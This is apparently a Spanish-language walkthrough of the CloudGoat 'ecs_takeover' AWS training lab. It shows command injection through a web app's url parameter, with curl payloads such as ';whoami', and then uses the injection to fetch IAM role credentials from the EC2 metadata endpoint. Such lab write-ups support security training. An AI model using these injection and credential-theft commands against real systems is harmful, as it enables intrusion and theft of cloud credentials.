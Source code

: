 ```yaml
---
description: 'Lab: CloudGoat'
---
```


# ECS\_takeover

## Laboratorio

En este escenario se empieza realizando un pentesting de caja negra contra un aplicativo web alojado en una instancia EC2. Luego de identificar una vulnerabilidad que permite RCE sobre el aplicativo web se abusará del servicio de metadatos de la instancia y del docker. Para posteriormente, comprometer una de las tareas que está corriendo en un cluster al que se tiene acceso por medio de la instancia comprometida.

{% hint style="danger" %}
El desarrollo de este ejercicio puede llegar a consumir recursos económicos dentro de las cuentas de AWS.
{% endhint %}

{% embed url="https://github.com/RhinoSecurityLabs/cloudgoat/tree/master/scenarios/ecs_takeover" %}

<mark style="color:green;">**Objetivo**</mark>: Obtenga acceso al contenedor "bóveda" y recupere la bandera.

### Configuración inicial

Checar instalación de CloudGoad en:

{% content-ref url="./" %}
[.](./)
{% endcontent-ref %}

Lanzar el escenario con:

```bash
./cloudgoat.py create ecs_takeover
```

<figure><img src="../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

### Explotación

Al finalizar la preparación del laboratorio se arroja un sito web: [http://ec2-54-236-32-165.compute-1.amazonaws.com/](http://ec2-54-236-32-165.compute-1.amazonaws.com/) el cual contiene un aplicativo como el siguiente:

<figure><img src="../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

Luego de ingresar una URL válida como www.google.com se identificó que se puede agregar un parámetro URL sobre el enlace original, y además se ve como el aplicativo web incrusta el código HTML sobre el DOM de la página.

<figure><img src="../../../.gitbook/assets/image (85).png" alt=""><figcaption></figcaption></figure>

Realizando una inyección de parámetros se observó que el aplicativo responde comandos de sistema operativo:

{% code overflow="wrap" %}
```
curl "http://ec2-54-236-32-165.compute-1.amazonaws.com/?url=%3Bls+-l"
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (2) (1) (2).png" alt=""><figcaption></figcaption></figure>

Haciendo uso de la vulnerabilidad de code injection se puede observar que el aplicativo está corriendo bajo el usuario de root:

{% code overflow="wrap" %}
```
curl "http://ec2-54-236-32-165.compute-1.amazonaws.com/?url=%3Bwhoami"
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (71).png" alt=""><figcaption></figcaption></figure>

Usando el comando env podemos listas las variables de entorno del sito:

<figure><img src="../../../.gitbook/assets/image (84).png" alt=""><figcaption></figcaption></figure>

Listando las interfaces de red existentes se encontró una interfaz de red docker, lo cual indica el uso de contenedores

```
curl "http://ec2-54-236-32-165.compute-1.amazonaws.com/?url=%3Bip+a+show"
```

<figure><img src="../../../.gitbook/assets/image (87).png" alt=""><figcaption></figcaption></figure>

Listando los contenedores con `docker ps -a` se encontraron los siguientes contenedores:

<figure><img src="../../../.gitbook/assets/image (6) (2).png" alt=""><figcaption></figcaption></figure>

| Contenedor                                                                                 | ID           |
| ------------------------------------------------------------------------------------------ | ------------ |
| ecs-cg-ecs-takeover-ecs\_takeover\_cgidjozev9f9bv-vulnsite-1-vulnsite-bcf8beafe588ccca8a01 | 7bfa57af37b6 |
| ecs-cg-ecs-takeover-ecs\_takeover\_cgidjozev9f9bv-privd-1-privd-a2bfc681b6dcf9d55500       | 64ca7db98975 |
| ecs-agent                                                                                  | aaead8b98f5f |

Se puede generar una rever shell en el sitio y tener mayores capacidades, para fines didácticos solo se va a consumir los metadatos del rol de la instancias ec2 y se procedesa a usar las credenciales de acceso

{% code overflow="wrap" %}
```
curl "http://ec2-54-236-32-165.compute-1.amazonaws.com/?url=%3Bcurl+http://169.254.169.254/latest/meta-data/iam/security-credentials/"
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (86).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```
curl "http://ec2-54-236-32-165.compute-1.amazonaws.com/?url=%3Bcurl+http://169.254.169.254/latest/meta-data/iam/security-credentials/cg-ecs-takeover-ecs_takeover_cgidjozev9f9bv-ecs-agent"
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (5) (2).png" alt=""><figcaption></figcaption></figure>







